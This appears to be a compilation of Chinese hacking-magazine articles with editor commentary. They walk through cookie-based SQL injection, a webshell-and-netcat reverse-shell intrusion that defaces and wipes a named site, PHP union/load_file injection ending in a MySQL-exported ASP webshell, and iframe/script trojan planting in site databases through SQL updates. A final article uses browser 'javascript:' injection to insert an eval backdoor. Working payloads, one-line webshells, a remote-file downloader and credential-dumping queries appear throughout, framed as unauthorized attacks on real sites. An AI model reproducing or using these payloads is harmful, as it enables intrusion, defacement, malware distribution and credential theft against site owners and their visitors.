是不是很多人就此放弃了？不用怕，现在有了COOKIE注入，看我的！（Kiss在一旁骂道：这骚包又开始发骚了。）先将浏览器地址栏清空（记得将这个地址用文本文档保存，待会还要用到的），然后输入：

```javascript
javascript:alert(document.cookie="id="+escape("1'"));
```

图3

提交弹出一个对话框，如图3所示。点确定，接着输入处理的2.asp页面。注意不要后面 ?id=1 了哦，因为我们已经用COOKIE提交了。看看显示的结果（如图4），是不是成功绕过了注入系统，报错了？接着提交：

```javascript
javascript:alert(document.cookie="id="+escape("1' and '1'='1"));
```

图4

图5

前面已经说了是字符型，所以和数字型的有一点小小的变化，主要是为了闭合引号。提交，如图5所示。页面正常，我就不再干体力活了，因为后面的步骤跟手动注射的语句都如出一辙，就不重复了。这个漏洞地址我会保留一段时间，有空的时候可以去练练手，随便怎么玩，反正别黑了我的BLOG就行了。

希望大家看完后能够有所收获，有什么问题可以去我的论坛 www.starthack.cn 发帖提问。

# 编辑点评

国内最早提出cookie注射的概念是lake2，他的个人blog上有过一篇文章介绍过，不过并没有像作者这样图文并茂。关于cookie注射的测试语句，我也提供一个，是：

```javascript
javascript:alert(document.cookie="参数="+escape("参数值 and 1=1"));self.open("http://"+document.location.host+document.location.pathname);void(0);
javascript:alert(document.cookie="参数="+escape("参数值 and 1=2"));self.open("http://"+document.location.host+document.location.pathname);void(0);
```

这样比较简单一点，不用反复打开网页。现在好像也有直接的cookie注射工具了，可以省去手工操作的步骤。

落叶纷飞[J.L.S.T] @ 笨笨

# 从本文你可以学习到旁注的一个小技巧

这篇文章在两个多月前的时候我就完成了，但是作为我自己的入侵笔记来用，并没有想过要投稿。但现在因为比较急用银子，所以就发给 N0h4ck 献丑了（为了有人对号入座，我把图片稍稍处理了一下，请读者们见谅）。

图1

最近在网上老是看到有人说被一个网址为“http://www.xuehk.com”的黑客培训机构骗了钱，而且骗取的金额数目可不少。于是，抱着为民除害的心态，准备对这个所谓的黑客培训机构进行一次渗透。在网上搜索了一些关于这个网站的资料，得知这个网站在前不久已经被人黑过了，如果现在还要再次入侵的话，成功的几率可能比较小，于是就叫上了几个朋友一起搞。

打开“http://www.xuehk.com”，发现网站的页面几乎都是静态的，如图1所示。

整理好思路后，我决定先从主站入手。用阿D和明小子注入工具进行了一次注入点扫描，结果无功而返，但这是我意料之中的事。然后，我变了一下思路，花了10多分钟搜集齐了 www.xuehk.com 的所有目录，目录如下：

- http://www.xuehk.com/
- http://www.xuehk.com/book/
- http://www.xuehk.com/vip/
- http://www.xuehk.com/pojie/
- http://www.xuehk.com/js/
- http://www.xuehk.com/xz/
- http://www.xuehk.com/zs/
- http://www.xuehk.com/shop/
- http://www.xuehk.com/yewu/
- http://www.xuehk.com/zs/photo/xiao/
- http://www.xuehk.com/zs/photo/da/
- http://www.xuehk.com/zs/photo/

代码换成如下语句：

```asp
Set xPost = CreateObject("Microsoft.XMLHTTP")
xPost.Open "GET","被下载文件的网址",False
xPost.Send()
Set sGet = CreateObject("ADODB.Stream")
sGet.Mode = 3
sGet.Type = 1
sGet.Open()
sGet.Write(xPost.responseBody)
sGet.SaveToFile Server.MapPath("保存的文件名"),2
set sGet = nothing
set xPost = nothing
response.Write("下载成功！")
```

我分别用网站猎手和明小子注入工具的批量扫描功能对这些目录进行后台扫描，然后我又用我自己加强过的 NBSI 一个一个地扫，结果依然是无功而返。看来从主站入手是几乎没可能的了，于是乎开始旁注。打开“http://www.114best.com/ip/”对 xuehk 进行旁注查询，发现服务器上有很多网站，很快我就找到了一个有漏洞的网站，但是由于服务器安装了比较强的杀软，所以我只拿到了一个一句话 webshell，如图2所示。

图2

把 webshell 丢给朋友后，我用 lake2 的一句话木马客户端查看了一下服务器信息，webshell 所在的网站根目录为“F:\wwwroot\****\wwwroot\”，**** 为网站域名的前段，所以，我推测 xuehk.com 的网站根目录为“F:\wwwroot\nxuehk\wwwroot\”，于是我马上尝试跳转到此目录，但是没有权限。这时我想到 asp.net 的木马权限可能会比 asp 的高一点，但是上传好 lake2 的 asp.net 一句话木马后却发现服务器不支持 asp.net。

我用 dir 命令想查看 F 盘的文件，但是没有权限，真是郁闷死我了，能执行命令但又没有利用价值，于是我就准备在网上查一些关于服务器提权的文章，看看别人的提权思路。谁知我无意中看到一篇关于 webshell 下 nc 反弹的权限讨论，仔细看过讨论后得知原来用 nc 反弹回来的 shell 权限是比 webshell 权限高的！于是我马上弄了一个我免杀过的 nc 到服务器上，在本地打开 cmd，输入命令“nc -vv -l -p 2006”，然后在 webshell 中输入“C:\Program~\freeweb\nc.exe -e C:\Program~\freeweb\cmd.exe 我的IP 2006”，一会儿 nc 就有回应了，我尝试执行命令“net user aa aa /add”，结果失败，证明权限不是 system，但当我用命令“dir F:\wwwroot\nxuehk\wwwroot\”的时候，居然成功地列出了 xuehk.com 网站的所有文件，如图6所示。

图6

然后我试着用 echo 命令来在 xuehk.com 写一个文件，输入“echo H4cked by 落叶纷飞>luoye.txt”，成功写入了 xuehk.com 的网站根目录，如图7所示。

图7

现在来 echo 一个一句话木马吧！输入“echo ^<script language=VBScript runat=server^>execute request^("l"^)^</script^>^>luoye.asp”，成功写入 luoye.asp，但因为服务器屏蔽了 asp 调试错误的信息，所以打开 luoye.asp 时返回的页面是 500 内部错误，但是这并不影响一句话木马的使用。我用 lake2 的一句话木马客户端连接上 xuehk.com 的一句话木马后，用它的“Edit TextFile”功能把 xuehk.com 的首页文件 index.asp 替换成了黑页，并且在 nc 反弹回来的 shell 中将其数据完全删除掉了，也算是给他们一个小小的教训吧！至此，骗子站 xuehk.com 成功被攻破了，如图8所示。

图8

总的来说，这次入侵的目的还是达到了，虽然没有获得服务器的最高权限，但是这次入侵也令我学习到了很多知识，学会了在绝处逢生。入侵的思路就是要活，我相信，有灵活的思路无论是什么网站都一样能攻破的！

再点击“GO”按钮后，一会儿文件就会被下载到服务器上了，如图3、图4所示。

图3

图4

上传好 cmd.exe 后，在我刚才写的 cmd.asp 脚本的代码中把“cmd.exe”改为“C:\Program Files\free3web~\cmd.exe”，尝试着执行了一下命令，发现执行成功！看来不需要用 Wscript 来执行命令了，如图5所示。

图5

接着查看了一下终端信息，发现端口被改为了 60015。查看了一下第三方软件的信息，结果 Serv-U 路径找不到，而且默认密码改了，服务器上没有安装 PcAnywhere 和 Radmin，MSSQL 和 MySQL 也没有安装，仔细再找了一下，也没有发现什么可利用的第三方软件，而且服务器的权限设置得很死，连“开始→程序”都打不开。

上传 cmd.asp 准备尝试执行命令，但 cmd.asp 也被服务器的杀毒软件给 kill 了，于是，自己操刀写了个执行 cmd 命令的 asp 脚本。

成功上传到服务器后，执行 cmd.asp 命令失败。我想可能是管理员删除了 cmd.exe，也可能是服务器的权限设置问题，用一句话木马查看服务器服务信息，发现 Wscript 并没有被禁止。本想用 Wscript 来执行命令，但是连一些能写的目录都找不到，常用的 everyone 目录都不能用，至此，提权陷入了死局。感觉没什么意思，就跟朋友说了下情况出去玩了。

晚上回来的时候，朋友说找了 N 个小时，终于找到了一个能写的目录，目录位置是“C:\Program Files\free3web~”，这着实吓了我一跳，一个软件的目录居然能写？打开这个目录看了看，不知道是什么东西，就搁在了一边。准备把 cmd 上传到服务器的时候我又发现了一个问题，就是我该如何把二进制文件传上服务器呢？一句话木马只支持文本上传（作者注意看编辑点评）。有的朋友可能说用 Wget.vbs 来下载，但是你想想，我们该怎么执行命令让 Wget.vbs 去下载文件呢？经过一会儿的思考，我终于想到了一个办法，不能上传，但能下载吧？于是我在网上找到了一个可行的办法，就是利用 Microsoft.XMLHTTP 来下载文件到服务器上。我们先把 cmd.exe 传到自己的网站上（为了减少体积，我用 FSG 压缩了 cmd.exe！），然后打开一句话木马客户端强版，填好一句话木马的信息后，把第三个框清空，再把第二个框的代码换成如下语句：

```asp
Set xPost = CreateObject("Microsoft.XMLHTTP")
xPost.Open "GET","被下载文件的网址",False
xPost.Send()
Set sGet = CreateObject("ADODB.Stream")
sGet.Mode = 3
sGet.Type = 1
sGet.Open()
sGet.Write(xPost.responseBody)
sGet.SaveToFile Server.MapPath("保存的文件名"),2
set sGet = nothing
set xPost = nothing
response.Write("下载成功！")
```

[cmd.asp 收录在本期光盘]

# 编辑点评

其实不用反弹回来的，在 webshell 里应当也可以直接 echo。我发这篇文章的原因是我确实碰到过好几个国外站，在 webshell 里无法用 FSO 跳转目录，但是却可以 cmd 来 dir 和 type 查看内容，能够 echo 的不多见。另外，我看图2中作者用的一句话 asp 木马海阳版太老了，不过你用 lake2 的也可以做到直接上传二进制文件呀。如果你用 2006 或 2006+ 的海阳一句话木马，你何必自己写 N 多的代码，费那么多的周折呢？

## 一次简单的PHP注入利用

图冷颜

从本文你可以复习一下PHP常规注入方法和PHP版的 eWebEditor 的利用流程。

## 一、信息收集

最近大片比较多，所以在网上关注电影院里的电影上映排档，于是有了下面针对本市某电影网的综合检测过程。通过扫描得知目标服务器开放了 21、80 两个端口，而且目标站点采用的是 ASP 的整站程序，在 www.114best.com 查询发现服务器上绑定了 4 个域名（如图1），确定服务器是个虚拟主机，其中三个是与目标站类似的 ASP 整站系统，而另外一个则是 PHP 架构的网站。

先从目标站入手，点开个链接开始测试是否存在注入漏洞。提交：

http://www.testAsp.com/gb/action_detail.asp?nid=90'

立刻弹出了错误提示，试下把 i 换成 %69 继续提交：

- http://www.testAsp.com/gb/action_detail.asp?n%69d=90 and 1=1
- http://www.testAsp.com/gb/action_detail.asp?n%69d=90 and 1=2

绕过了防注入系统（如图2），这个主要是因为防注代码过滤不严造成的，只对“nid”进行过滤，我们只要把“nid”转换一下格式就可以了。

这个注点权限是 public，而利用 NBSI 暴管理员字段的时候也出现了错误，暂时用途不大，通过跨库发现数据库有很多，可以猜测该服务器绑定的域名不只有 4 个。

图1

图2

## 二、PHP旁注

经过测试，其他两个 ASP 系统的注射点同样是 public 权限，所以只能从 PHP 站入手了。直接找出了一个注射点，提交 http://www.testPhp.gov.cn/news_detail.php?nid=3031'，暴出了网站路径（如图3）D:\www.testPhp.gov.cn\，通过这个路径可以推测一下目标站的路径是 D:\www.testAsp.com，而这个猜测可以通过 load_file() 去读取该站的一个 asp 文件是否存在来证实。

图3

利用 order by num 确定出该注射点的列名数量，提交 http://www.testPhp.gov.cn/news_detail.php?nid=3031 order by i，i 值提交到 16 的时候出现了如图3的错误，确定列名数量是 15。继续提交 http://www.testPhp.gov.cn/news_detail.php?nid=3031 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15，只有第 5 列和第 14 列的内容是显示到页面上的，选择区域大的 14 进行 load_file，先试下读取 c:\boot.ini，提交：

http://www.testPhp.gov.cn/news_detail.php?nid=3031 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,load_file('c:/boot.ini'),15

返回如图4的错误，这是因为 PHP 环境里的 magic_quote 设置为 on 了。magic_quote 是一个自动将进入 PHP 脚本的数据进行转义的过程，当设置为 on 时，所有的单引号（'）、双引号（"）、反斜线（\）和 NULL 字符都会被自动加上一个反斜线进行转义。但是只要把要 load 的内容转换成 16 进制就可以绕开转义了，我这里用的是小葵的转换工具。继续提交：

http://www.testPhp.gov.cn/news_detail.php?nid=3031 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,load_file('c:/boot.ini'),15

出来了系统版本（如图4），试验成功了就可以去 load 其他路径的文件了。首先用 D 盘做路径 load 了一下目标站的一个 asp，发现目标站点并不在 D 盘，而用桂林老兵的 WebTools 对 Php 站进行路径扫描后也没发现后台，旁注一时陷入了困境，出现了拿到管理员密码也没后台登录的局面。

图4

## 三、新的缺口

无奈之下只能靠猜路径了，要得到网站位置和结构，最好的方法无疑是去 load Serv-U 的配置文件。从 C 盘开始试 c:\program files\serv-u\servudaemon.ini、c:\serv-u\servudaemon.ini，结果到 D 盘的时候 load 出了配置文件（如图5），路径是 d:\serv-u\ServUdaemon.ini。配置文件里几乎包含了所有站点的后台和数据库目录，后台路径是 /maintain/，而且目标站点的路径原来是 e:\www\www.testAsp.com。有了后台地址就可以暴管理员的密码了，点开管理员登录页面查看源码，通过 action 找到验证登录的 php 文件，代码如下：

```html
<FORM name=f1 action=loginadmin.php method=post>
```

只要 load 出 loginadmin.php 就可以知道管理员表、用户名和密码列名，从而避免了繁琐的猜测了，最后得到以下关键代码。

```php
$uname=$HTTP_POST_VARS["user"];
$upass=md5($HTTP_POST_VARS["password"]);
$query="select uid,uname,uadmin,utname,upermit from admintab where uname='$uname' and upass='$upass'";
```

顺利拿到用户列 uname、密码列 upass 和管理员表 admintab，通过代码可以看到密码经过 md5 加密，但是仍然可以碰下运气。

接着就可以暴密码了，提交：

http://www.testPhp.gov.cn/news_detail.php?nid=3031 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,concat(uname,0x7c,upass),15 from admintab

得到管理员账号和密码（如图6），在 cmd5 里查询得出的密码明文是 1234，顺利登进了后台。

图5

图6

## 四、跨目录传Webshell

继续在后台里寻找利用的地方时，发现增加资料模块调用的是 PHP 版的 eWebEditor（如图7），于是下了套 PHP 版的 eWebEditor 回来分析，发现 PHP 版的登录账户和密码是明文，保存在 /php/config.php 里，所以只要 load 出这个配置文件，就可以登录进去了（如图8）。关于 asp 版的 eWebEditor 拿 webshell 的方法大家都十分熟悉了，而 PHP 版用的同样也是在样式里添加后门格式的办法，限于篇幅这里就不做详细说明了，最后成功得到了一个 php shell。

图7

图8

因为我们的目标站在 E 盘，而服务器配置限制了目录跳转，所以这时还能利用的是权限较高的 MySQL 了。在 phpMyAdmin 目录里的 config.inc.php 里找到了数据库连接代码，内容如下。

```php
$cfg['Servers'][$i]['host'] = 'localhost';
$cfg['Servers'][$i]['extension'] = 'mysql';
$cfg['Servers'][$i]['port'] = '3306';
$cfg['Servers'][$i]['connect_type'] = 'tcp';
$cfg['Servers'][$i]['compress'] = false;
$cfg['Servers'][$i]['controluser'] = 'root';
$cfg['Servers'][$i]['controlpass'] = '';
```

在 PhpSpy 里有 MySQL Manager 功能，首先用 root 用户和空密码连接上 MySQL，然后再利用 MySQL 的输出功能来导出一个 aspshell 到目标站点，连接后选择一个数据库，然后依次执行以下 SQL：

```sql
create table x(cmd text)
```

建立一个数据表，列名为 cmd，格式是 text。

```sql
insert into x values(0x3C256576616C20726571756573742822612229253E20)
```

插入经过 16 进制转换的 asp 一句话木马。

```sql
select * from x
```

查询写入内容（如图9）。

```sql
select * from x into outfile 'e:/www/www.testAsp.com/sand.asp'


```

导出一句话木马到目标站点，最后成功拿到目标站点的控制权（如图10）。

图9

图10

# 编辑点评

load_file 入侵主机的 servudaemon.ini 得到路径，跨目录用 mysql 写文件都是不错的，而且是可行的想法。注入语句用到了 concat 函数，说明作者入侵的经验很丰富了。这篇文章如果最后再加上一个利用 mysql 的 root 权限得到 system 权限就非常完美了，对新手来说是一个很好的教程。

# 对数据库挂马技术的研究

知识型流氓[LST] & Oracle[天阳]
前一段时间闹得沸沸扬扬的趋势科技等数万网站被JS挂马的事件，攻击者用的就是数据库挂马的攻击手法。好像这个方法已经在小范围内流行了很久，早在2005年就有踪迹了。

首先要说说数据库挂马的原理：所谓的数据库挂马就是需要利用调用数据库的页面（比如新闻，论坛，留言板等等），通过一个DBOWNER权限或者更大权限的注入点（这样我们就有执行update语句的能力），向数据库里插入挂马的代码。很显然，数据库挂马的危害是十分巨大的。

假如一个网站有执行update语句权限的DBOWNER的注入点，如page.asp?id=111，而且我们的目的仅仅是挂马而不是攻击他。一般首页显示的标题为“欢迎光临”，如果首页显示的标题为“欢迎光临<iframe src=http://www.***.com/***.htm width=0 height=0></iframe>”这样的话，首页就会执行这段代码了。

要想用update往网页调用数据库的位置里写数据，首先你要知道网页都从数据库的哪个部分提取数据。每个不同的库，表，字段，都存储了不同的数据，有不同的网页去调用。你要做的，就是找最多人会看的网页，看看这个网页调用数据库的哪个表，然后去改那个表里的内容。看的最多的网页，当然是主页了。根据动态URL连接的位置，去找相对位置的字段（比如page.asp?id=111，就找id字段的第111项）。在我们这个例子中，表名为page，字段为title，id。当id=111时，暴出的数据为“欢迎光临”。那么，首页所调用的数据库的字段就为page表中的title了。这时在注入点，我们就可以肆无忌惮的提交vote.asp?id=123;update news set title='欢迎光临<iframe src=http://www.***.com/***.htm width=0 height=0></iframe>' where id=1;--，这样就可以更改数据库，实现了挂马。

来看下实战，www.***.co.kr这个网站有一个DBOWNER权限的注入点（如图1），我们来拿他说事。
打开主页之后，请留意浏览器左下角的游标。从这些游标信息来看，有bbs、programme等内容，同时也记下了页面上几个关键词，譬如Alice Notice、Box office等，这些地方都直接调用了数据库内容。
现在我们来打开NBSI（目前我觉得这款工具列表最好用，因为它可以指定位置读取信息），表列出了一大堆，怎么找呢（如图2、图3）？
不用担心，你可以从表名中推测这些表都是什么意思。管理员为了管理数据库方便，每个表名必然都是代表其具体意义的。善于了解表名，是非常重要的。从这些列出的表中，你发现了什么？没错，刚才我们留意过的一些关键词都出现在其中了。看到T_BoxOffice了吗？他的内容是有直接显示在主页上的哦。我们列列这个表的字段（如图4），num当然就是number了，subject大概是主题类型，filename名字，kind是类型，我们都列出来了。我们接着猜解字段，当num段是1的时候，subject为GP506（如图5）。

我们到主页看看，果然有这些内容。这里我要说说，这么容易就找出来的原因不是运气好，而是之前看主页的时候记的关键词，从而根据关键词而快速的找到了相关的东西。

现在知道了主页有显示数据库alicetv里的T_BoxOffice表的内容。我们来试试改这个表的内容。下面来写这个数据库命令：update [表] set [某个段]=something where [某个段] 这里是一个条件符号something；——这里我就写成：http://www.alicetv.co.kr/Program/List.aspx?group=kid';update [T_BoxOffice] set [subject]='GP506<iframe src=http://www.***.com/***.htm width=0 height=0></iframe>' where [num]=1;--之后我们到首页上就可以看到，首页已经被我们挂上马了。
可是，在实践的过程中有不少问题。譬如，很多情况下标题都会通过<table>标签限制宽度。这样，我们所要挂马的代码就会超出标题所允许的最大长度，代码只能写到一半，就不能执行了。
这种情况下，我们可以试试JS挂马，这样长度会短很多，如：page.asp?id=111;update news set title='欢迎光临<script src=http://www.***.com/***.js></script>' where id=1;--。有时数据库会过滤一些符号或者敏感词，可以转换为16进制再来update执行。

如果大家对数据库挂马还有什么见解或者疑问，都可以来bbs.tian6.com和NOHACK论坛，我们一起研究。

> **编辑点评：**
> 文章开头一段话是不对的。第一个技术并不是小范围流行而是一个基本常识，类似的攻击有像我们无法破出md5值就可以update为一个新的密码的md5值。关于沸沸扬扬的趋势科技网站被JS挂马，这一事件的操纵者肯定是写了一个类似爬行的蠕虫来用本文的方法进行自动挂马的。这个蠕虫的爬行的方法才是重点，才是小范围内流行的入侵方法。另外作者在文章中用的是nbsi来读取表的字段实现update，如果执行命令网页上有错误回显的话可以用having 1=1一步步到来确定要update的字段。至于程序来自动判断表名、列名同时进行挂马，这个技术就不得而知了。
## LCX高专首语

因为这个专栏的原因，我开始关注一些跨站的文章，发现跨站的研究已经到了一个很深入的水平了。从原本的dhtml跨站到现在的swf，宽字符集跨站都有人做过研究了，也取得了不错的成果。跨站的危害越来越大，钓鱼页面的泛滥、邮箱论坛等密码的窃取、网马蠕虫的暴发、数据库被js挂马，始作俑者无一不是跨站，这些实例正好证明了跨站技术研究的重要性，且记跨站不仅仅是弹框框。

## 谈谈javascript injection

arugamama

> **编辑说明：**
> arugamama投了两篇稿子，先是通过实例讲解了一下如何javascript injection，另一篇文章就是对文中的代码给出了原理解析。我把这两篇文章去掉了一部分无关javascript injection的内容，合并成了一篇，也把这篇文章从“西线无战事”移到了“高手专栏”，因为javascript dom正好也符合我们跨站的主题。从这篇文章中，读者可以从原理到实例都对javascript injection会有一个感性的认识，我相信你们会学到一些东东，但是无可否认，作者也并非对javascript有过深入了解，请读者和作者也要注意一下我的文章点评。

## 一、起因

在本年第四期的《黑客手册》上有一篇文章《交友征婚网站的小漏洞》，作者通过双%5c暴库，进入管理员后台，然后通过外部提交往数据库中插入一句话木马，得到webshell。我看了文章之后，觉得还有可玩的东西，比如如果程序禁止外部提交数据，那怎么办呢？我想到了javascript injection。于是下载源代码看了一下。

## 二、分析

先来看一下程序怎么禁止外部提交的。上网搜了一下，asp禁止外部提交的代码一般是这样的：

```asp
<%
dim server_v1,server_v2
server_v1=Cstr(Request.ServerVariables("HTTP_REFERER"))
server_v2=Cstr(Request.ServerVariables("SERVER_NAME"))
if mid(server_v1,8,len(server_v2))<>server_v2 then
    session("adminuser")=""
    Response.Redirect "login.asp"
end if
%>
```

ServerVariables集合包含了两种值的结合体，一种是随同页面请求从客户端发送到服务器的HTTP报头中的值，另外一种是由服务器在接收到请求时本身所提供的值。在ServerVariables集合中返回的值包含Web服务器的详细信息和当前页面的路径信息。

在程序中，管理员登录成功则进入adminuser.asp进行管理，源码没有禁止外部提交，所以只要进入后台，就得到了session认证，然后即可修改代码提交。添加管理员对应表单是：

```html
<form action="adminuser.asp?submitok=addadmin" method="post" name="form">
<tr>
<td width="489" align="center"><a href="adminuser.asp">添加管理员名称：</a>
<input name="name2" type="text" id="num2" style="font-size:9pt;" size="12" maxlength="12">
密码：
<input name="pass2" type="text" id="num3" style="font-size:9pt;" size="12" maxlength="12">
<select name="kind" id="kind" style="font-size:9pt;">
<option value="1" selected >1</option>
<option value="2">2</option>
<option value="3">3</option>
<option value="4">4</option>
<option value="5">5</option>
<option value="6">6</option>
<option value="7">7</option>
<option value="8">8</option>
<option value="9">9</option>
<option value="10">10</option>
</select>
</form>
```

如果程序检测数据是否是从`http://127.0.0.1/ddd/adminuser.asp`上的表单发送的。如果不是，就证明数据是从外部提交的，程序就会强制取消session认证，退出管理。现在你再复制源文件进行修改，保存后双击提交，马上就会被踢出管理页面，返回登录页面login.asp。没辙了吧！下面谈谈javascript injection。

### 三、javascript injection

javascript injection就是在浏览器地址栏输入javascript命令，命令的语法看上去像这样：`javascript:alert(#command#)`。进行javascript injection我们所做的改变仅仅是在客户端！就像是把网站保存在了你的PC上，然后修改它。尽管如此，使用这个技巧你仍然可以欺骗一个页面(例如cookies)或者通过一个页面的安全验证，比如绕过外部提交认证。

我以前也没有搞过javascript injection，我先在地址栏输入的是`javascript:(document.form.kind.value="rrrrr")`，结果把整个页面都覆盖了，试一下`javascript:alert(document.form.kind.value="rrrrr")`，只会弹出一个窗口，但是没有什么用（编辑点评：因为document是重写的意思，当然会覆盖页面）。我想，能不能动态添加一个option选项呢？

百度一下，发现介绍“添加option选项”的一段代码：

```javascript
function addOption(){
    // 根据 id 查找对象.
    var obj=document.getElementById('mySelect');
    // 添加一个选项
    obj.add(new Option("文本","值"));
}


```

把它改写成javascript injection形式：`javascript:var obj=document.getElementById('kind');obj.add(new Option("javascript injection","<%eval(request('java'))%>"));`。成功添加一个Option选项，如图1。点ok，出现错误：
```
错误类型:
Microsoft JET Database Engine (0x80040E14)
语法错误 (操作符丢失) 在查询表达式 ''<%eval(request('java'))%>' 中。
/ddd/admin/adminuser.asp, 第 202 行

不知道大家注意到没有，这条语句和踏魂翻译的kostis90gr写的《利用JavaScript进行注入》里面介绍的方法有点不同。他那篇文章的命令语法看上去像这样：`javascript:alert(#command#)`，而我用的这条语句并没用alert，直接写入到浏览器里执行了。为什么要用alert呢? 比如用`javascript:alert(document.images(0).src="http://www.site.com/image.jpg")`可以改变第一个图像，但是把alert去掉直接用`javascript:document.images(0).src="http://www.site.com/image.jpg";`就不行了，这是为什么呢? 如果是这条语句`javascript:alert(document.form.onsubmit="return true;");`加上alert的作用解释为返回的值直接写入到文档中，我们无法继续填写表单，alert以后就阻止页面发生跳转，倒还解释得通（编辑点评：这和javascript伪协议有关，如果不想跳转可以用void这个函数）。


```

不懂（编辑点评：因为document.form.kind没有明确的指定对象。为什么这样，估计是源程序接收的问题了，不太好分析），把`<%eval(request('java'))%>`改成`<%eval(request(chr(111)))%>`，点ok，成功插入数据库（如图2）。而且这样做并不会被认为是外部提交哦。

| id | user2 | pass2 | grade | addtime |
|---|---|---|---|---|
| 2 | admin | admin | 10 | 2004-10-1 上午 12:28:52 |
| 32 | admin1 | 123456 | | 2003-4-25 上午 10:17:21 |
| 33 | admin2 | 1234567890 | εεε | 2008-4-25 上午 10:21:19 |
| 34 | admin3 | 444444444 | | 2008-4-25 上午 10:23:45 |
| 40 | javascript | injection | <%eval(request(chr(111)))%> | 2008-4-26 下午 12:41:52 |

## 四、代码原理解析

我在交友征婚网站javascript injection代码里面利用JavaScript在浏览器文档(document)的select对象里面动态增加了一个option对象(或叫元素(Element))，用的语句是`javascript:var obj=document.getElementById('kind');obj.add(new Option("javascript injection", "<%eval(request('java'))%>"));`。
这篇文章我要讨论的是JavaScript Injection的两大步骤，即用javascript获取文档(document)对象句柄并读写该对象的属性或方法。进行JavaScript Injection首先要定位要进行操作的对象(object)，也就是说要读写目标对象(object)或元素(Element)的属性和方法，先要获得该对象的句柄，然后才能进行下一步操作。

#### (一)、获取对象句柄

进行JavaScript Injection就是用javascript操纵浏览器对象，达到需要的效果。对象就是拥有属性和方法的一个实体，javascript可以操纵对象来改变或增加对象的属性和方法。

- **1. 以数组形式获取对象句柄**

浏览器在加载文档时，根据HTML程序里的标签(Tag)来创建相应的对象实体，然后把对象实体按照数组的方式按标签的排列顺序保存在相应的对象(forms, images)中，通过Document Object Model (DOM) 的层次结构可以进行访问。DOM的最顶层是window对象，通常省略不写，window的子节点document对象就是浏览器里显示的内容。访问对象的属性和方法的语法是：`object.attribute/method`。

比如`document.images`就代表文档中所有图像对象构成的数组，要访问具体图像可以通过数组的形式，比如`document.images(0)`就表示文档里的第一张图像。document对象还有一个all集合，`document.all`可以返回文档所包含的所有元素的集合。有一种简便的方法是`document.all.tags()`，可以得到同一标签(tag)的集合，例如`javascript:alert(document.all.tags("input").item(0).value);`，如图3所示。值得注意的是，在javascript中数组是从0开始计算的，而且[]和()是通用的。
- **2. 通过Element的 name 属性获得对象句柄**

如果文档元素(element)有个name属性，通过Element的name属性获得对象句柄。比如``，就可以通过`document.myImage`来获取该对象的句柄。

name="logo">，可以直接用 `document.logo` 来获取该元素句柄。但是如果是在表单（form）中，就有点不同了。例如：

```html
<form name="form1" id="id0">
ID:<input type="text" name="text1" value="id" id="id1">
PASSWORD:<input name="text2">
</form>
```

直接用 `javascript:alert(document.text1.value);` 是没有任何反应的，要注意 DOM 的层次结构，用 `javascript:alert(document.form1.text1.value);` 就行，如图4。

`document` 还有个方法 `getElementsByName`，但若是 `javascript:alert(document.getElementsByName("text1").value);` 也是不行的（编辑注：正确方法是 `javascript:alert(document.getElementsByName("text1")[0].value);`，注意这个 `getElementsByName` 方法里边有个 `s`，表示复数的意思，当然要用数组取值）。

- 3. 通过 Element 的 id 属性获得对象句柄

例子还是上面的，`javascript:alert(document.id0.id1.value);`，如图5，同样要注意层次结构，不要跨层。但是有例外，`document` 有个方法 `getElementById`，可以跨层访问，`javascript:alert(document.getElementById("id1").value);`，如图6，可见 `getElementById` 比 `getElementsByName` 强多了。

值得注意的是，JavaScript 对大小写是敏感的，比如函数 `getElementById` 就要这样写，如果你写成了 `getElementByid`，是执行不了的。还有引号的问题，被引号包起来的说明里面的东西是个字符串（String），若不用引号，那可能是数字（number）或变量。要明确的是，元素的属性值若是字符串要用引号括起来，像 `getElementById("id1")` 这样，若 `getElementById(id1)` 则不行。还有函数名 `getElementsByName` 比 `getElementById` 中间多了一个 “s”，不要写错了。

## （二）、读写对象的属性

首先回味一下这句吧：`javascript:var obj=document.getElementById('kind');obj.add(new Option("javascript injection","<%eval(request('java'))%>"));`，第一个语句就是获取对象句柄，第二个语句就是增加了一个对象，我把它叫做读写对象的属性。

再回头看看 kostis90gr 的《利用 Javascript 进行注入》，在 `<SCRIPT LANGUAGE="JavaScript">var a="test"</SCRIPT>` 中，为了查看变量的值，你可以输入 `javascript:alert(a)`，然后为了把它从 `test` 改为 `hello`，你可以输入：`javascript:alert(a="hello")`，先看下面源码：

```html
<form name="format" action="send.php" method="post">
<input type="hidden" name="mail" value="someone@somewhere.com">
<input type="text" name="name">
<input type="submit" value="submit"></form>
```

你想想要表单发送到我们的邮箱，而不是代码中的邮箱，你可以用这个命令完成：`javascript:alert(document.format.mail.value="me@hacker.com")`。

我把我上面的代码改成：

```html
<form name="form1" id="id0">
ID:<input type="text" name="text1" value="id" id="id1" maxlength=4>
PASSWORD:<input name="text2">
</form>
```

我想要读取 `maxLength` 属性的值，若用上面的方法应该是 `javascript:alert(document.form1.text1.maxLength);`，读出来了，如图7。

我再介绍一个函数 `getAttribute()`，`getAttribute()` 方法可以读取元素属性，包括内置属性和自定义属性，而上面的方法只能读取内置属性。

要注意的是在脚本范围内内置属性的字符大小写一定要按照内置的大小写，不然就 `undefined`。比如 `maxLength`，包括在 JavaScript 脚本里面的 `maxLength` 一定要大小写分明地那样写，在脚本之外则无所谓。比如在 `<input type="text" name="text1" value="id" id="id1" maxlength=4>` 里，`maxlength` 大小写是没有关系的，但是在 `javascript:alert(document.form1.text1.maxLength);` 里面 `maxLength` 一定要这样写。用 `getAttribute` 就不必这么麻烦了，因为 `getAttribute()` 方法可以读取自定义属性，用 `javascript:alert(document.getElementById("id1").getAttribute("maxlength"));`` 也可读出，如图8。

再举个例子，`<h1 id="hh" align="right">welcome</h1>`，可以用 `javascript:alert(document.getElementById("hh").getAttribute("align"));` 来读取 `align` 属性的值。注意：元素属性名是一个字符串（string）常量，非得用引号包起来不可，不然无法执行。

光读取元素属性对 JavaScript Injection 来说是不够的，JavaScript Injection 主要就是要写元素属性。还是用上面那个例子，ID 最多 4 个字符（`maxlength=4`），改变 `maxlength` 这个属性的值就得用 `javascript:alert(document.form1.text1.maxLength=100);`。也可用 `setAttribute()` 方法来改变属性值，执行 `javascript:alert(document.getElementById("id1").setAttribute("maxLength",100));` 后虽然弹出 `undefined`，但已经可以输入 100 个字符了。

